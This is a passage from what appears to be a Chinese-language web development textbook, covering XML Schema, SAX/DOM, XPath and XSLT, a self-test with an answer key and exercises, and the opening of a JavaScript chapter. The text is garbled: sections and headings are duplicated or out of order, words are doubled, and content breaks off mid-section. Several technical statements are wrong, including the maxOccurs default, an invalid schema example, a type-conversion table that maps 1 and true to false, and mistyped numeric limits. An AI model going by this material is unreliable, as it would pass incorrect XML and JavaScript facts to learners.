    <xs:attribute name="id" type="xs:integer"/>
  </xs:complexType>
</xs:element>
```

下面的示例显示了一个包含其他元素和文本的元素：

```xml
<xs:element name="note">
  <xs:complexType>
    <xs:sequence>
      <xs:element name="to" type="xs:string"/>
    </xs:sequence>
    <xs:extension base="xs:string"/>
  </xs:complexType>
</xs:element>
```

要声明 `employee` 是一个仅包含其他元素的复杂元素，请使用：

```xml
<xs:element name="employee">
  <xs:complexType>
    <xs:sequence>
      <xs:element name="firstName" type="xs:string"/>
      <xs:element name="lastName" type="xs:string"/>
    </xs:sequence>
  </xs:complexType>
</xs:element>
```

要声明 `product` 是一个仅包含自定义简单类型或属性的复杂元素，请使用：

```xml
<xs:element name="product">
  <xs:complexType>
    <xs:attribute name="id" type="xs:string"/>
    <xs:attribute name="price" type="xs:decimal"/>
  </xs:complexType>
</xs:element>
```

### 3.4.4 控制元素顺序和重复

对于包含其他元素的元素，`sequence` 元素（`sequence`、`all` 和 `choice` 都是顺序指示器）使得 XML Schema 强制执行嵌套元素的顺序，就像前面的 `employee` 元素中 `lastName` 元素必须跟在 `firstName` 元素之后。如果你需要规定每个嵌套元素恰好出现一次但顺序任意，你可以将 `sequence` 元素替换为 `all`，如下面的修改后的 `employee` 示例：

```xml
<xs:element name="employee">
  <xs:complexType>
    <xs:all>
      <xs:element name="firstName"
        type="xs:string"/>
      <xs:element name="lastName"
        type="xs:string"/>
    </xs:all>
  </xs:complexType>
</xs:element>
```

如果你需要指定 `employee` 元素需要包含 `firstName` 元素或 `lastName` 元素，但不能兼具备，你可以将上例中的 `all` 元素替换为 `choice` 元素：

```xml
<xs:element name="employee">
  <xs:complexType>
    <xs:choice>
      <xs:element name="firstName"
        type="xs:string"/>
      <xs:element name="lastName"
        type="xs:string"/>
    </xs:choice>
  </xs:complexType>
</xs:element>
```

出现指示器用于定义元素可以使用多少次。XML Schema 有两个出现指示器：`maxOccurs` 和 `minOccurs`；它们是 XML Schema `element` 元素的属性。

`maxOccurs` 属性指定了宿主元素在该位置最多出现的次数。它接受非负整数或 `"unbounded"` 作为上限。其默认值是 `unbounded`（无限制）。

属性 `minOccurs` 指定了其宿主元素在该位置至少应出现的次数。它接受一个非负整数作为下限。其默认值为 1。

例如，以下声明指定了 `dvd` 元素可以出现零次或无限次。

```xml
<xs:element name="dvd" minOccurs="0"
  maxOccurs="unbounded">
```

## 3.4.5 在 XML 文档中引用 XML Schema

与 DTD 声明不同，XML Schema 声明始终放在与其实例文档分离的文件中。当你创建一个 XML 文档时，你可能希望声明该文档是由 XML Schema 文件指定的 XML 方言的实例。这种关联的方法取决于 XML Schema 声明是否使用了命名空间（target namespaces）。

### 3.4.5.1 指定不带目标命名空间的 XML Schema

假设一个 XML 方言通过 XML Schema 文件 `schemaFile.xsd` 指定，且未使用目标命名空间，该 Schema 具有 URL `schemaFileURL`，它可以可以是本地文件系统路径如 `"schemaFile.xsd"`，也可以是 Web URL 如 `"http://csis.pace.edu/schemaFile.xsd"`。该方言的实例文档可以通过以下结构与其 XML Schema 声明关联，其中 `rootTag` 是根元素的名称，`xsi` 被定义为 XML Schema 实例的命名空间空间，后者包含一个 `noNamespaceSchemaLocation` 属性，用于指定不使用目标命名空间的 XML Schema 文件的位置。

```xml
<rootTag
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:noNamespaceSchemaLocation="schemaFileURL">
```

### 3.4.5.2 指定带命名空间的 XML Schema

假设一个 XML 方言通过 XML Schema 文件 `schemaFile.xsd` 指定，使用了目标命名空间 `namespaceString`（例如，`http://csis.pace.edu`），且 Schema 文件具有 URL `schemaFileURL`，它可以可以是本地文件系统路径如 `"schemaFile.xsd"`，也可以是 Web URL 如 `"http://csis.pace.edu/schemaFile.xsd"`。该方言的实例文档可以通过以下结构与其 XML Schema 声明关联，其中 `rootTag` 是根元素的名称，`xsi` 被定义为 XML Schema 实例的名称前缀，后者包含一个 `Location` 属性，用于指定使用目标命名空间的 XML Schema 文件的位置。

```xml
<rootTag
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation=
    "namespaceString schemaFileURL">
```

## 3.5 使用 SAX 和 DOM 进行 XML 解析与验证

大多数 XML 应用都需要读取 XML 文档、分析其数据结构并在发现某些语言特征时激活事件。SAX（XML 简单 API）和 DOM（文档对象模型）是用于解析和处理 XML 文档的两种流行的解析器。SAX 像流水线一样工作。它顺序读取输入的 XML 文档，并在检测到元素和属性等语言特征的开始或结束时触发事件。采用 SAX 解析器的应用程序需要编写每种事件类型的方法，当触发相应类型的事件时，SAX 解析器会调用这些方法。由于 XML 文档不需要完全存储在计算机内存中，因此 SAX 对于某些不需要在 XML 文档中搜索信息的应用程序来说是高效的。

相反，DOM 解析器在计算机内存中构建一个完整的树形数据结构，以便进行更详细的文档分析和语言转换。尽管 DOM 解析器使用更多的计算机内存，但 DOM 是与 Ajax 技术结合使用的主要的 XML 解析器。

SAX 和 DOM 都可以工作在验证模式。作为解析过程的一部分，它们可以检查输入的 XML 文档是否良好良好（well formed）。此外，如果向解析器同时输入 DTD 或 XML Schema 中的 XML 方言规范以及 XML 文档，解析器可以检查该 XML 文档是否为该 XML 方言的实例。

## 3.6 使用 XSLT 进行 XML 转换

由于 SAX 像流水线一样工作，它顺序读取输入的 XML 文档，并在检测到元素和属性等语言特征的开始或结束时触发事件。采用 SAX 解析器的应用程序需要编写每种事件类型的方法，当触发相应类型的事件时，SAX 解析器会调用这些方法。由于 XML 文档不需要完全存储在计算机内存中，因此 SAX 对于某些不需要在 XML 文档中搜索信息的应用程序来说是高效的。

相反，DOM 解析器在计算机内存中构建一个完整的树形数据结构，以便进行更详细的文档分析和语言转换。尽管 DOM 解析器使用更多的计算机内存，但 DOM 是与 Ajax 技术结合使用的主要的 XML 解析器。

SAX 和 DOM 都可以工作在验证模式。作为解析过程的一部分，它们可以检查输入的 XML 文档是否良好良好。此外，如果向解析器同时输入 DTD 或 XML Schema 中的 XML 方言规范以及 XML 文档，解析器可以检查该 XML 文档是否为该 XML 方言的实例。

### 3.6.1 使用 XPath 识别 XML 节点

在你可以对元素进行转换之前，需要知道如何使用 XPath 识别节点。XPath 使用路径表达式来选择 XML 文档中的节点。有两种指定节点路径的方法：绝对路径和相对路径。绝对路径以斜杠 `/` 开头，具有格式 `/step/step`，而相对路径不以斜杠开头，具有格式 `step/step`。

在两种情况下，路径表达式都从左到右评估，每个步骤都在当前节点集中进行评估。对于绝对路径，第一步之前的当前节点集是空的，第一步将识别根元素。对于相对路径，第一步之前的当前节点集由其上下文定义，通常是另一个路径表达式。每个步骤具有以下通用格式（方括号内可选）：

```text
[axisName::]nodeTest[predicate]
```

其中可选的 `axisName`（轴）指定了所选节点与当前节点之间的关系，`nodeTest`（节点测试）识别节点类型，零或多个 `predicate`（谓词）用于精炼所选节点集。

让我们先看一些不使用轴名称和谓词的简单路径表达式。这里最实用的路径表达式包括：

| 表达式 | 说明 |
| --- | --- |
| `nodeName` | 选择命名节点的子节点 |
| `/` | 从根节点开始选择 |
| `//` | 从当前节点开始文档中匹配选择的节点，无论它们在哪里 |
| `.` | 选择当前节点 |
| `..` | 选择当前节点的父节点 |
| `@` | 选择属性 |
| `text()` | 选择当前元素的文本值 |
| `*` | 选择任何元素节点 |
| `@*` | 选择任何属性节点 |
| `node()` | 选择任何类型的节点（元素、属性等） |


相对于之前的 XML 文档 `dvd.xml`，路径表达式 `library` 选择节点集中所有的 `library` 元素；`/library` 选择根元素 `library`；`library/dvd` 选择 `library` 元素的子节点中的所有 `dvd`；`//dvd` 选择文档中所有的 `dvd` 元素，无论它们位于当前节点的什么位置（无论在其他元素中嵌套了多少层）；`library//title` 选择 `library` 元素的后代中的所有 `title` 元素，无论它们在 `library` 元素的什么位置；`//id` 选择所有命名为“id”的属性；而 `/library/dvd/title/text()` 选择所有 `dvd` 元素的 `title` 元素的文本值。

方括号中的谓词可以用于进一步缩小所选节点的子集。例如，`/library/dvd[1]` 选择 `library` 的第一个 `dvd` 子元素（IE5 之后使用 `[0]` 表示第一个子元素）；`/library/dvd[last()]` 选择 `library` 的最后一个 `dvd` 子元素；`/library/dvd[-1]` 选择 `library` 中最后一个元素之前的 `dvd` 子元素；`/library/dvd[position<3]]` 选择 `library` 的前两个 `dvd` 子元素；`/library/dvd[@id]` 选择所有具有 `id` 属性的 `dvd` 元素；`//dvd[@id='2']` 选择 `id` 属性值为 2 的 `dvd` 元素；`/library/dvd[genre='Classic']` 选择 `library` 中 `genre` 值为“Classic”的所有 `dvd` 子元素；以及 `/library/dvd[genre='Classic']/title` 选择 `library` 中所有 `genre` 值为“Classic”的 `dvd` 元素的所有 `title`。路径表达式谓词可以使用与编程语言中相同的许多二元运算符，包括 `+`、`-`、`*`、`div`（除法）、`=`（等于）、`!=`（不等于）、`<`、`<=`、`>=`、`and`（逻辑与）以及 `mod`（模）。

你可以使用 XPath 通配符表达式 `*` 和 `node()` 来选择 XML 元素。例如，对于之前的 XML 文档 `dvd.xml`，`/library/*` 选择 `library` 元素的所有子节点；`//` 选择文档中的所有元素；`//dvd[@]` 选择所有具有任何属性的 `dvd` 元素。

多个路径表达式也可以与析取运算符（逻辑或）结合使用。例如，`//title | //genre` 选择上文中所有的 `title` 和 `genre` 元素。

XPath 定义了一组 XPath 轴（axes），用于指定 XML 文档树形表示中特定方向上当前节点的节点子集。下表列出了常用的 XPath 轴名称及其含义。

| 轴名称 | 结果 |
| --- | --- |
| `ancestor` | 选择当前节点的所有祖先（父节点、祖父等） |
| `ancestor-or-self` | 选择当前节点的所有祖先（父节点、祖父等）以及当前节点本身 |
| `attribute` | 选择当前节点的所有属性 |
| `child` | 选择当前节点的所有子节点 |
| `descendant` | 选择当前节点的所有后代（子节点、孙节点等） |

## 3.6 使用 XSLT 进行 XML 转换

| 轴名称 | 结果 |
| --- | --- |
| `descendant-or-self` | 选择当前节点的所有后代（子节点、孙节点等）以及当前节点本身 |
| `following` | 选择文档中当前节点结束标签之后的所有内容 |
| `following-sibling` | 选择当前节点之后的所有兄弟节点 |
| `namespace` | 选择当前节点的所有命名空间节点 |
| `parent` | 选择当前节点的父节点 |
| `preceding` | 选择文档中当前节点起始标签之前的所有内容 |
| `preceding-sibling` | 选择当前节点之前的所有兄弟节点 |
| `self` | 选择当前节点 |

相对于 XML 文档 `dvd.xml` 的示例，`child::dvd` 选择作为当前节点子节点的 `dvd` 节点；`attribute::id` 选择当前节点的属性；`child::*` 选择当前节点的所有子节点；`attribute::*` 选择当前节点的所有属性；`child::text()` 选择当前节点的所有文本节点；`child::node()` 选择当前节点的所有子节点；`descendant::dvd` 选择当前节点的所有 `dvd` 后代；`ancestor::dvd` 选择当前节点的所有 `dvd` 祖先；`child::*::title` 选择当前节点的所有 `title` 孙节点。

### 3.6.2 将 XML 文档转换为 XHTML 文档

XSLT 是 XSL 的主要组件，它允许你使用 XML 语法将特定 XML 方言的实例文档转换为另一种 XML 方言或其他文档类型（如 PDF）。XSLT 的常用功能之一是将 XML 文档转换为 HTML 以用于 Web 显示，如本节示例所示。

XSLT 基于内存中的 DOM 树表示。描述转换过程的常用方法是：XSLT 将 XML 源树转换为 XML 结果树。在转换过程中，XSLT 使用 XPath 表达式定义应匹配一个或多个预定义模板的文档部分。当找到匹配时，XSLT 将源文档的部分转换为结果文档。

# 第 3 章 XML 中的 X

XSLT 是一种在命名空间 `http://www.w3.org/1999/XSL/Transform` 下定义的 XML 方言。它的根元素是 `stylesheet` 或 `transform`，当前版本为 1.0。以下是文件 `dvdToHTML.xsl` 的内容，它可以将 XML 文档 `dvd.xml` 转换为 HTML 文件。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html" version="4.0"/>
<xsl:template match="/">
<html>
<head>
<title>DVD Library Listing</title>
<link rel="stylesheet" type="text/css" href="style.css"/>
</head>
<body>
<table border="1">
<tr>
<th>Title</th>
<th>Format</th>
<th>Genre</th>
</tr>
<xsl:for-each select="/library/dvd">
<xsl:sort select="genre"/>
<tr>
<td><xsl:value-of select="title"/></td>
<td><xsl:value-of select="format"/></td>
<td><xsl:value-of select="genre"/></td>
</tr>
</xsl:for-each>
</table>
</body>
</html>
</xsl:template>
</xsl:stylesheet>
```

6. 一个 XML 实例文档可以在不引用 DTD 或 XML Schema 中其方言规范的情况下被声明为有效。

- **a.** 正确
- **b.** 错误

7. 属性的值必须在双双引号或一对单引号内。

- **a.** 正确
- **b.** 错误

8. 命名空间用于避免元素或属性名称的冲突，以便多个 XML 方言可以使用在同一个 XML 实例文档中。

- **a.** 正确
- **b.** 错误

9. 如果命名空间字符串的格式是 URL，则必须在该 URL 处部署相应的网络资源。

- **a.** 正确
- **b.** 错误

10. SAX 总是能够更高效地解析大型 XML 文档。

- **a.** 正确
- **b.** 错误

11. XSL 文档中的每个 `template` 元素的功能类似于一个转换规则。

- **a.** 正确
- **b.** 错误

12. XML 处理工具是最新浏览器和 Java JDK 的一部分。

- **a.** 正确
- **b.** 错误

# 自测题答案

1.a 2.b 3.a 4.a 5.a 6.b 7.a 8.a 9.b 10.b 11.a 12.a

# 3.9 练习题

1. XML 在今天的 IT 系统中主要功能是什么？
2. 什么样的 XML 文档是良好的（well formed）？
3. 什么样的 XML 文档是有效的（valid）？
4. 为什么命名空间在 XML 技术中很重要？
5. SAX 和 DOM 解析器之间有什么相似之处和不同？
6. 列出一些可以使用 XML Schema 指定但不能用 DTD 指定的 XML 特性。
7. CSS 和 XSL 样式表之间的主要区别是什么？
8. XPath 在 XSLT 中的作用是什么？

# 3.10 编程练习

1. 使用 DTD 声明一个 XML 方言，指定学生选课信息的子集。
2. 使用 XML Schema 声明一个 XML 方言，指定学生选课信息的子集。
3. 编写一个 XSLT，将上述方言的实例文档通过 Web 浏览器转换为 HTML。

# 3.11 参考文献

Michael Morrison. *Sams Teach Yourself XML in 24 Hours, Second Edition*, Sams, 2002. ISBN 0-672-32213-7.

Paul Whitehead, Ernest Friedman-Hill, and Emily Vander Veer. *Java and XML*, Wiley, 2002. ISBN 0-7645-3683-4.

W3C. *Extensible Markup Language (XML) 1.0 (Fourth Edition).* `http://www.w3.org/TR/xml/`

W3C. *XML Schema.* `http://www.w3.org/XML/Schema/`

W3C. *The Extensible Stylesheet Language Family (XSL).* `http://www.w3.org/Style/XSL/`

SAX. `http://www.saxproject.org/`

W3C. *Document Object Model (DOM).* `http://www.w3.org/DOM/`

*XML Tutorial.* `http://www.w3schools.com/xml/`

Sun Microsystems. *Simple API for XML.* `http://java.sun.com/j2ee/1.4/docs/tutorial/doc/JAXPSAX.html`

*XML DOM Tutorial.* `http://www.w3schools.com/dom/`

*XSLT Tutorial.* `http://www.w3schools.com/xsl/`

*XPath Tutorial.* `http://www.w3schools.com/xpath/`

# 第 4 章 JavaScript 与文档对象模型

## 本章目标

- 描述 JavaScript 编程语言的基本特征
- 引入浏览器对象模型（BOM）以及如何使用 JavaScript 操作它
- 引入文档对象模型（DOM）以及如何使用 JavaScript 修改它
- 描述如何使用 JavaScript 操作网页样式
- 描述如何在 JavaScript 中处理浏览器事件

## 4.1 JavaScript—Ajax 中的 J

JavaScript 是一种解释型编程语言，类似于 Perl、Python、Ruby 以及无数其他语言。JavaScript 主要用于为网页添加动态行为。所有现代浏览器（意味着实际上任何发布于 Netscape 4.5 版本或 Internet Explorer（IE）4 版本之后的浏览器）都包含一个可以执行 JavaScript 代码的解释器。

JavaScript 实际上是由 Netscape 2 最初创建的语言名称，现在由 Mozilla 基金维护。为了与 Netscape 竞争，微软创建了原始语言的近似复制品，将其称为 JavaScript，并将其添加到他们的浏览器中。使用这种工具的开发者发现，编写兼容两种浏览器的代码是令人沮丧的。为了考虑到 JavaScript（以及其他实现）之间的差异，必须在代码中添加无数分支，这编写起来耗时，维护起来也费力。

因此，Ecma International 承担了标准化该语言的工作，并最终发布了名为 ECMAScript 的厂商中立规范。尽管该语言有官方名称（以及各种实现的名称），但 JavaScript 常被使用，它是 Ajax 中使用的术语，因此也是本书中将贯使用的术语。

JavaScript 在语法上与 C++ 和 Java 相似，但又大不同。JavaScript 是一种功能齐全的语言，它是弱类型的，并包含了面向对象的能力。正如你预期的那样，JavaScript 作为一种功能齐全的面向对象语言，支持不同的数据类型；各种语句（包括 `if/else`、`switch` 和不同类型的循环）；用于定义接受参数并返回值的函数表示法；异常处理；用于定义和创建对象的表示法；以及对继承的支持。

与 C++ 和 Java 不同，在 JavaScript 中声明变量时不需要指定类型，对象将属性名映射到值（类似于哈希表或关联数组），并且基于继承的——JavaScript 中没有正式的类概念。

Ecma International 目前正在制定 ECMA262 第 4 版，该版本基于 JavaScript 2.0 的提案。JavaScript 2.0 建议添加强类型和基于类的继承。目前尚不知道第 4 版何时完成，或者之后浏览器需要多久才能符合，本书将涵盖 JavaScript 2.0。

后续章节涵盖了截至 ECMA262 第 3 版的核心 JavaScript 语言。后续章节及本书的其他部分提供了许多代码示例。你可以通过在 Firebug（Firefox 浏览器的开发工具）中执行代码来轻松测试 JavaScript 示例。Firebug 提供了一个命令行，你可以在其中执行任意的 JavaScript 代码。

通过在 Firebug 命令行中输入代码，你可以看到本章示例 JavaScript 执行的结果。这是学习 JavaScript 和理解书中代码示例的极佳方法。Firebug 命令行为你提供了在运行的 Web 浏览器环境下实验 JavaScript 语言的绝佳工具。参见附录有关如何设置和使用 Firebug 的信息。

### 4.1.1 注释

JavaScript 的注释语法与 C++ 和 Java 相同。单行注释以两个斜杠（`//`）开头。多行注释以正斜杠后跟一个星号（`/*`）开启，以星号后跟正斜杠（`*/`）结束。确保不要在多行注释中编写 `/*`，否则将关闭注释并导致剩余注释产生错误。以下是一些示例。

```javascript
// 此注释仅限单行或部分行。
```

```javascript
/* 此注释可以跨越
多行。 */
```

```javascript
/* 此注释在此结束导致此处产生错误。 */
```

¹ `http://developer.mozilla.org/en/docs/About_JavaScript`

² `http://www.mozilla.org/foundation/`

³ `http://www.ecma-international.org/`

⁴ `http://www.ecma-international.org/publications/standards/Ecma262.`

### 4.1.2 标识符

标识符用于命名变量、函数和标签。标识符的第一个字符必须是字母、下划线（`_`）或美元符号（`$`）。后续字符可以是字母、数字、下划线或美元符号。你不能将任何 JavaScript 保留字作为标识符。表 4.1.1–4.1.3 列出了需要避免的 JavaScript 保留字和其他标识符。

### 4.1.3 数据类型与值

JavaScript 支持 Null、Undefined、Number、Boolean、String 和 Object 数据类型。这些数据类型将在后续章节讨论。它们可以分为两类：原始类型和引用类型。Object 是唯一的引用类型；其余都是原始类型。原始类型 Number、Boolean 和 String 有相关的全局对象，见节 4.1.3。

由于 JavaScript 是弱类型的，任何数据类型都可以替代其他数据类型，JavaScript 会自动进行转换。

#### 4.1.3.1 Null

Null 只有一个值 `null`，表示空或不存在的引用。持有 `null` 值的变量不包含有效的对象、数组、数字、字符串或 Boolean 值。

#### 4.1.3.2 Undefined

Undefined 只有一个值 `undefined`，当你使用已声明但从未赋值的变量或使用不存在的对象属性时返回。值 `null` 和 `undefined` 是不同的，因此 JavaScript 的恒等运算符（`===`）和 `typeof` 运算符不认为它们相等。然而，JavaScript 的相等运算符（`==`）因为执行转换而认为它们相等。

恒等运算符（`===`）检查两个操作数是否相同，而相等运算符（`==`）检查两个操作数是否相等。值 `null` 和 `undefined` 不相同，因为它们是不同的值；但它们被评估为相等，因为它们都表示值的缺失。


| | | `function` | `instanceof` | `return` | `double` | `throw` | `protected` | `public` | `short` | `static` | `super` | `transient` |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| `break` | `continue` | `if` | `new` | `null` | | | | | | | | `while` |
| `case` | `debugger` | `do` | `in` | `switch` | | | | | | `var` | `with` | |
| `catch` | `default` | `else` | `this` | `try` | | | | | | `void` | | |

## 表格 4.1.1 JavaScript 保留字

| | | | | | | | | | | | | | | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| `abstract` | `char` | `extends` | `goto` | `int` | `native` | `package` | `private` | | | `synchronized` | `volatile` | |
| `boolean` | `double` | `final` | `enum` | `implements` | `interface` | `long` | | | | | | |
| `byte` | `class` | `const` | `export` | `float` | | | | | | | | |

## 表格 4.1.2 JavaScript 保留字

| | | | | | | | | | | | | | | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| `arguments` | `decodeURIComponent` | | | | `parseInt` | `Math` | `EvalError` | | | | | |
| `Array` | `encodeURI` | | | | | `Function` | `Number` | `Range` | `TypeError` |
| `Boolean` | `Error` | | | | | `Infinity` | `Object` | `ReferenceError` | `undefined` |
| `Date` | `escape` | | | | | `isFinite` | | | | | |
| `decodeURI` | `eval` | | | | | `isNaN` | | `RegExp` | `String` |

## 表格 4.1.3 需要避免的额外标识符

### 4.1.3.3 Number（数字）

`Number` 代表由 IEEE 754 标准双精度 64 位格式定义的数值集合，以及特殊的 `NaN`（非数字）和 `Infinity`（正无穷和负无穷）值。这意味着 JavaScript 可以表示极大为 ±1.7976931348262157 × 10³⁰⁸、最小为 ±5 × 10⁻²⁴ 的数字。与 C++ 和 Java 不同，这种单一数据类型同时包含了整数和浮点数。JavaScript 可以精确地表示从 −9007192254740991 (−⁵³) 到 9007192254740991 (2⁵³) 之间的整数（包含边界），超出范围可能会丢失精度。然而，某些整数操作（如位运算符）是在 32 位整数上执行的，其范围范围从 −2147483648 (−2³¹）到 2147483647 (2³¹−1)。

ECMAScript 标准定义了对十六进制（16 进制）数值的支持，以“0x”或“0X”开头，后跟一个 0 到 9 以及 a 到 f 的组合，且不区分大小写。例如，`0x1F` 在 10 进制中是 31（1 × 16 + 15 = 31）。

虽然 ECMAScript 标准没有定义，但某些 JavaScript 的实现支持八进制（8 进制）数值，以 0 开头并后跟 0 到 7 之间的数字。例如，`037` 在 8 进制中是 31（3 × 8 + 7 = 31）。在 JavaScript 中带有前零的整数是一种糟糕的做法，因为只有部分实现支持八进制值，而部分不支持。

JavaScript 还支持指数计数法。例如，`5.43e12 = 5.43 × 10¹²`，`5.43E-12 = 5.43 × 10⁻¹²`——“e”不区分大小写。

JavaScript 有几个特殊的数值。`Infinity` 是当数字大于最大可数字时得到的特殊值。对于负数端，还有一个 `−Infinity`。当数学运算返回未定义的结果（如 0 除以 0）或错误时，返回 `NaN`。`NaN` 不与任何值比较，但 JavaScript 有一个全局函数 `isNaN()` 用于测试值。相关函数 `isFinite()` 测试一个数字是否不是正无穷或负无穷。原始类型 `Number` 关联有一个 `Number` 对象，包含最大和最小可数字、`NaN` 以及正负无穷的属性，以及一些转换方法。此外，JavaScript 提供了 `Math` 对象，包含了数学常数（如 $\pi$）和常用的数学函数（如三角、对数和指数函数）。

### 4.1.3.4 Boolean（布尔）

`Boolean` 只有两个值：`true` 和 `false`。它与 Java 中的 Boolean 类似，不同之处 JavaScript 中的 Boolean 可以与其他数据类型之间进行转换。

### 4.1.3.5 String（字符串）

`String` 是所有字符串值的数据类型。字符串通过在单行中使用成对的双引号（`"hello"`）或单引号（`'hello'`）包裹字符序列定义。如果你的字符串必须包含单引号（或撇音），请使用双引号来定义字符串（例如 `"that's cool"`），反之亦然（例如 `'name=bob'`）。JavaScript 也像 Java 那样的转义语法（例如 `'cool'`），因此你可以通过 `\n` 为字符串添加换行符。此外，JavaScript 还支持 Unicode 字符的转义语法（例如 `\uXXXX`）。字符串在 JavaScript 中的特殊之处在于，它们不是 `Object` 类型，但你可以使用对象表示法来访问它们的属性和方法（所有方法都定义在 `String` 中；见第 4.1.3.9 节）。例如，你可以获取长度。

# 第 4 章 JavaScript 与文档对象模型

对象字面量符号简单来说对象字面量符号简单来说在大括号内部的一组由逗号分隔的键值对。名称可以是任何 JavaScript 数据类型或字符串，后跟一个冒号。值可以是任何 JavaScript 数据类型或任何类型的表达式。因此，我们可以像这样创建一个具有两个属性的对象：

```javascript
myObj = {
  name: "Richard Allen",
  address: { street: "1 Main St", city: "Atlanta", state: "GA" }
}
```

`myObj` 的第一个属性是字符串（`String`），第二个属性是一个具有三个字符串属性的对象（`Object`）。

在 JavaScript 中，你可以动态地向任何对象实例添加和删除属性。你通过直接赋值来添加属性，并使用 `delete` 操作符删除属性。使用我们刚刚创建的 `myObj`，我们可以删除 `name` 属性并添加 `firstName` 和 `lastName` 属性。

```javascript
delete myObj.name;
myObj.firstName = "Richard"
myObj.lastName = "Allen"
(myObj.name == undefined) // 结果为 true
```

当非空对象在布尔上下文中使用时，它会转换为 `true`。当在字符串上下文中使用时，JavaScript 会调用对象的 `toString()` 方法并使用返回的值。当在数字上下文中使用时，JavaScript 先调用对象的 `valueOf()` 方法。如果 `valueOf()` 返回一个原始值，则使用该值。然而，`valueOf()` 通常返回对象本身，在这种情况下，JavaScript 会在对象上调用 `toString()` 方法，然后尝试将生成的字符串转换为数字。

### 4.1.3.7 类型转换

在前面的数据类型章节中讨论了一些类型转换。表 4.1.4 总结了 JavaScript 对特定值将执行的类型转换。数字 `0` 转换为布尔 `false`，数字 `1` 转换为布尔 `true`，但字符串 `"0"` 和 `"1"` 都会转换为布尔 `true`。此外，`null`、`undefined`、`NaN` 和 `""`（空字符串）都将转换为布尔 `false`。

### 4.1.3.8 原始类型与引用类型

通常，JavaScript 中的原始类型通过值进行操作，而引用类型通过引用进行操作。“按值传递”意味着你将如 `Number` 之类的原始类型作为函数参数传递，该数字会被复制并将副本传递给函数。当你将一个变量的值赋值给另一个变量时，如果该值是原始类型，它会被复制。如果该值是引用类型，值不会被复制；而是对该值创建一个新的引用。然而，JavaScript 中唯一的引用类型是 `Object`，这意味着所有对象——包括内置对象、用户定义对象以及数组和函数等特殊类型的对象——都是通过引用操作的。如果你将对象作为函数参数传递，该对象不会被复制；而是对象的引用被复制并传递给函数，以便函数拥有它自己的引用。如果在函数内部使用函数的引用对对象进行了更改，该更改在函数外部也是可见的。然而，如果函数用另一个对象的引用覆盖了引用，则传递给函数的原始引用将不受影响。

| 值 | 数字 | 布尔 | 上下文 | 字符串 | 对象 |
|---|---|---|---|---|---|
| `null` | `0` | `false` | | `"null"` | 错误 |
| `undefined` | `NaN` | `false` | | `"undefined"` | 错误 |
| `1`（任何非零数字） | `0` | `false` | | `"0"` | 数字 |
| `NaN` | `NaN` | `true` | | `"NaN"` | 数字 |
| `Infinity` | `Infinity` | `true` | | `"Infinity"` | 数字 |
| `-Infinity` | `-Infinity` | `true` | | `"-Infinity"` | 数字 |
| `true` | `1` | `false` | | `"true"` | 布尔 |
| `false` | `0` | `false` | | `"false"` | 字符串 |
| `""`（空字符串） | `0` | `false` | | `""` | 字符串 |
| `"0"`（任何数字字符串） | `0` | `true` | | `"0"` | 字符串 |
| `"bob"`（任何非数字字符串） | `NaN` | `true` | | `"bob"` | 字符串 |

表 4.1.4 JavaScript 类型转换

## 4.1.3.9 原始数据类型包装对象

JavaScript 为 `Boolean`、`Number` 和 `String` 原始类型定义了对象，这些对象封装了原始值并提供了操作该值的属性和方法。你很少需要创建对象。

# 4.1 JavaScript—在 Ajax 中

```javascript
var i; // 声明变量 i。初始值为 undefined。
```

如果你尝试读取一个未声明的变量的值，JavaScript 将生成一个错误。已声明变量的初始值为 `undefined`。不过，你可以将变量声明与变量赋值结合。

```javascript
var i = 0; // 声明变量 i 并将其赋值为 0。
```

已声明的变量可以被赋值和重新赋值任何数据类型。变量也可以被声明多次。如果重复声明包含赋值，则该值将直接赋值给现有变量。

```javascript
var myVar = 0; // 声明 myVar 并赋值为 Number（数字）
myVar = "hello"; // myVar 被赋值为 String（字符串）
myVar = true; // myVar 已声明；重新赋值为 Boolean（布尔）
myVar = { index: 0, count: 2 }; // myVar 被赋值为 Object（对象）
```

在函数外部使用 `var` 关键字声明的变量成为全局对象的属性。如果你给一个变量赋值但没有使用 `var` 关键字声明它，JavaScript 会隐式地为你创建该变量作为全局对象的属性，即使代码包含在函数内部。如果你将声明的变量仅视为某些对象的属性——例如全局对象、你定义的函数、你定义的对象或某些内置对象——那么这个概念可能会更清晰。作为独立的顶层代码，以下语句中的每条语句都会创建一个作为全局对象属性的变量：

```javascript
var myVar;

myVar = "hello";

this.myVar = "hello";

function myFunction() {
  myVar = "hello"; // 创建一个全局变量而不是 myFunction 的局部变量
}
```

### 4.1.5.1 作用域（Scope）

JavaScript 中的变量仅在声明它的对象内部可见。具有全局作用域的变量（全局变量）是被声明为全局对象属性（隐式或显式）的变量，它们存在于 JavaScript 程序的任何地方。具有局部作用域的变量（局部变量）声明在函数内部或作为全局对象之外的对象的属性，且仅在该对象内部可见。如果你在函数中声明了一个与现有全局变量同名的局部变量，局部变量的优先级高于全局变量。

```javascript
var scope = "global"; // 声明全局变量。
function showScope() {
    var scope = "local"; // 声明局部变量。
    alert("Scope is " + scope);
}
showScope();
```

你应该始终使用 `var` 关键字来声明变量。如果你不使用 `var` 来声明变量，该变量将在全局命名空间中创建。这会污染全局命名空间并经常导致 bug。声明局部变量的唯一方法是对对象赋值属性或使用 `var` 关键字。

```javascript
function showScope() {
    scope = "local"; // 声明了全局变量！
    alert("Scope is " + scope);
}
```

```javascript
scope = "global"
alert("Scope is " + scope); // 显示 "Scope is global"
showScope(); // 也显示 "Scope is global",
```

```javascript
// 定义一个带有变量的对象。
var myObject = { scope: "local to object" };
// 对象的变量是局部的。
// 要访问该对象的变量，必须对其进行限定。
alert(myObject.scope); // 显示 "local to object"
```

你应该在 `for` 循环中使用 `var` 来声明变量。在循环中声明的变量将成为其包含对象的属性。如果循环是顶层代码，则变量会被添加到全局对象中，即全局变量。如果循环包含在函数内部，则变量会被添加到函数的激活对象（activation object）中，即局部变量。函数的激活对象是由 JavaScript 解释器创建的对象，用于包含函数的参数和局部变量以提供局部作用域。

### 4.1.6 语句（Statements）

JavaScript 语句可以以分号或换行符结束。例如，以下两个都是完整的语句。

